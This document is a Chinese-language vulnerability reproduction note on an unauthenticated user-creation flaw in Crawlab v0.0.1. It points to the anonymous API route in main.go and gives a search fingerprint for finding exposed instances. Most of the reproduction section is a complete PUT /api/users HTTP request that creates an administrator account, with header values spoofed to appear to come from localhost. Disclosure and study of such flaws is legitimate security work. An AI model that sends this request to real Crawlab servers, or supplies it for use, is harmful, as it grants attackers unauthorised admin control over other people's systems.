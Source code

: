 # Crawlab users 任意用户添加漏洞

## 漏洞描述

Crawlab users 的 api 存在任意用户添加，且添加为未授权接口，可通过添加后在后台进一步攻击

## 漏洞影响

<a-checkbox checked>Crawlab v0.0.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Crawlab"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1639304614319-67b65509-55dd-4205-98cd-1ebdfb164e7b-20220313133455667.png)

首先查看路由位置 main.go 文件

![img](../../../.vuepress/public/img/1639305087766-21949d4c-a274-45e2-b1ed-2b12a2b6450d.png)

```python
anonymousGrou 中为匿名可调用方法
authGroup	  中为认证可调用方法
```

可以看到 Putuser方法为添加用户，但存在匿名调用

![img](../../../.vuepress/public/img/1639305199370-192f958d-1a96-4842-8f12-7dc32376074d.png)

根据字段生成添加用户的请求

```python
PUT /api/users HTTP/1.1
Host: 
Content-Length: 83
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"username":"testppp","password":"testppp","role":"admin","email":"testppp@qq.com"}
```

![img](../../../.vuepress/public/img/1639305372407-b81e6efc-2dde-403e-a7ad-ce5d0dd7cfa9.png)

![img](../../../.vuepress/public/img/1639305414874-3dc8bd9e-1d3d-44a0-a8a1-8c0d6affcddb.png)